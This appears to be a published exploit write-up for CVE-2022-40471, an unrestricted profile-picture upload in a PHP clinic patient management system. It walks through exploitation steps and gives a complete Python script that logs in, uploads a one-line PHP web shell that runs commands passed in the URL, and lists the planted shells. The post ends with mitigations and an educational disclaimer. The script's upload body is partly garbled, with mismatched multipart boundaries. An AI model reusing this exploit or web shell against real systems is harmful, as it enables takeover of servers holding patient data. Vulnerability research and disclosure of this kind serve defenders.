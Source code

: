 ```yaml
---
title: CVE-2022-40471 Remote Code Execution in Clinic's Patient Management System v 1.0
author: RashidKhanPathan
date: 2023-08-11-08 11:33:00 +0800
categories: [Exploit, Remote Code Execution, 0Day]
tags: [exploit, 0Day, Remote Code Execution]
---
```



**Date:** September 9, 2022  
**Last Updated:** October 16, 2022

**Exploit Source:** [Exploit Code](https://github.com/RashidKhanPathan/CVE-2022-40471) (exploit code)

**Vendor Homepage:** [Clinic's Patient Management System Source Code](https://www.sourcecodester.com/php-clinics-patient-management-system-source-code)

**Software Link:** [Download Clinic's Patient Management System v1.0](https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-cpms.zip)

**Tested Platforms:** Windows 10, Kali Linux

---

**Description:**

The Clinic's Patient Management System v1.0 contains a severe vulnerability (CVE-2022-40471) allowing remote attackers to execute arbitrary code. This vulnerability arises due to improper handling of user-uploaded profile pictures in the 'users.php' module. Malicious actors can exploit this flaw to upload a PHP web shell, gaining unauthorized access and execution capabilities within the system.

**Affected components - Source Code**

in following Source Code we can see that developer directly allows to upload any media files without restricting an a specific extenstion which means we can upload any extensions file there which is not okay for security reasons and using this functionality flaw, attacker could upload malicious webshell to gain access complete server with root privileges

**Vulnerable Page - users.php**

```php
  // users.php
  $status = move_uploaded_file(
    $_FILES["profile_picture"]["tmp_name"],
    'user_images/' . $targetFile
  );

  if ($status) {
    try {
      $con->beginTransaction();

      $query = "INSERT INTO `users`(`display_name`,
`user_name`, `password`, `profile_picture`)
VALUES('$displayName', '$userName', '$encryptedPassword', '$targetFile');";

      $stmtUser = $con->prepare($query);
      $stmtUser->execute();

      $con->commit();

      $message = 'user registered successfully';
    } catch (PDOException $ex) {
      $con->rollback();
      echo $ex->getTraceAsString();
      echo $ex->getMessage();
      exit;
    }
  } else {
    $message = 'a problem occured in image uploading.';
  }

  header("location:congratulation.php?goto_page=users.php&message=$message");
  exit;
}
```

---

**Exploitation Steps:**

To exploit this vulnerability, an attacker can perform the following steps:
1. Create a customized PHP web shell.
2. Utilize the 'users.php' module to upload the crafted web shell as a profile picture, alongside specifying a Display Name, Username, and Password.
3. Access the uploaded shell via the 'pms/user_images/' directory.
4. Intercept the shell's URL using BurpSuite and proceed to manipulate system commands by appending them after 'pms/user_images/.shell.php?cmd=your_command_here'.

---

**Exploit Code Overview:**

The provided Python script automates the exploitation process. It conducts authentication with the target, facilitates the upload of the malicious PHP web shell via crafted HTTP requests, and outputs the successful upload URL for the shell.

```python
from bs4 import *
import requests
import sys
import time

class RemoteCodeExecution:
    def auth(target_ip, target_port, uri_path, username, password):
        url = f'http://{target_ip}{uri_path}index.php'
        session = requests.get(url)
        cookies = (f"PHPSESSID={session.cookies['PHPSESSID']}")

        header = {
            'Host': target_ip,
            'Origin': 'http://' + target_ip,
            'Referer': 'http://' + target_ip + uri_path,
            'Cookie': cookies
        }

        data_body = {
            'username': username,
            'password': password,
        }

        url_auth = f'http://{target_ip}:{target_port}{uri_path}index.php'
        authentication = requests.post(url_auth, headers=header, data=data_body)

        if 'false' in authentication.text:
            print('[-] Username or password are incorrect, Try again')
            exit()
        else:
            print("[+] Exploit Title: Remote Code Execution (Authenticated) in Clinic's Patient Management System")
            print("[+] Author: RashidKhan Pathan {iHexCoder}")
            print("[@] Twitter: @itRashid")
            print("")
            time.sleep(1)
            print('[+] Authentication completed successfully,')
            print('[+] Uploading The Webshell')
        
        return cookies

    def exploit(target_ip, target_port, uri_path, cookies):
        header = {
                'Host': target_ip,
                'Content-Type': 'multipart/form-data; boundary=---------------------------405058720612140838201526428067',
                'Content-Length': '777',
                'Origin': 'http://' + target_ip,
                'Connection': 'close',
                'Cookie' : cookies,
                'Referer': 'http://' + target_ip + uri_path + 'users.php',
                'Upgrade-Insecure-Requests': '1'
        }


        data_body = '-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="display_name\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="user_name"\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="password"\r\n\r\nRCEEXPLOIT\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="profile_picture"; filename="shell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="save_user"\r\n\r\n-----------------------------405058720612140838201526428067--"; filename="webshell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------29635348012019605651675807433\r\nContent-Disposition: form-data; name="change\r\n\r\n-----------------------------29635348012019605651675807433--\r\n'
        uplaod_url = f"http://{target_ip}:{target_port}{uri_path}users.php"
        requests.post(uplaod_url, headers=header, data=data_body)


def main():
    
    if len(sys.argv) != 6:
        time.sleep(1)
        print("[+] Author: RashidKhan Pathan {iHexCoder}")
        print("[@] Twitter: @itRashid")

        time.sleep(1)
        print('Incorrect parameters!\r\n[!] Useage: python3 CVE-2022-40471.py <target_ip> <target_port> <target_uri> <username> <password>')
        print("[!] Example: python3 CVE-2022-40471.py 127.0.0.1 80 /pms/ UserName Password")

        exit()
        
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    uri_path = sys.argv[3]
    username = sys.argv[4]
    password = sys.argv[5]
    
    
    cookies = RemoteCodeExecution.auth(target_ip, target_port, uri_path, username, password)
    RemoteCodeExecution.exploit(target_ip, target_port, uri_path, cookies)    
    print(f'[+] Webshell uploaded successfully to: http://{target_ip}:{target_port}{uri_path}user_images/')
    print("[+] Enjoy your shell")
    print("[!] Note: In this Exploitation Scenario, Shell Changes the Random Digit after Uploading")
    print("[!] So Can use Any Uploaded Shell with Random Number ")
    print("[!] Copy The One of The Follwing Shell and Exploit it Using Curl ie: http://YourIP/pms/user_images/1663988032shell.php?cmd=whoami")
    print("")
    print("[+] Uploaded Shell")
    def get_url_paths(url, ext='', params={}):
        response = requests.get(url, params=params)
        if response.ok:
            response_text = response.text
        else:
            return response.raise_for_status()
        soup = BeautifulSoup(response_text, 'html.parser')
        parent = [url + node.get('href') for node in soup.find_all('a') if node.get('href').endswith(ext)]
        return parent

    url = 'http://localhost/pms/user_images/'
    ext = 'php'
    result = get_url_paths(url, ext)
    print(result)

   
    
if __name__ == '__main__':
    main()

```

---

**Proof Of Concept**
![Screenshot 2022-10-13 053055](https://user-images.githubusercontent.com/65374016/195474325-7c20861d-c64d-470c-8d03-3fb1078ee3da.png)

###### Mitigations: Please 

**Recommendations:**

- **Immediate Update:** Users are strongly advised to update the Clinic's Patient Management System to a patched version that addresses this critical vulnerability.
- **Restrict File Uploads:** Implement stricter validation mechanisms for file uploads, especially image files, Restrict other extenstions while uploading an image file for profile picture upload functionality and allow only .jpg .png extensions which are only image related to prevent the execution of arbitrary code
- **Regular Security Audits:** Conduct regular security audits and penetration testing to identify and patch potential vulnerabilities in the system.

---

**Disclaimer:**

This exploit demonstration and information are solely for educational purposes and security awareness. Use this knowledge responsibly and only on systems where you have explicit permission for testing or demonstration. - By Author







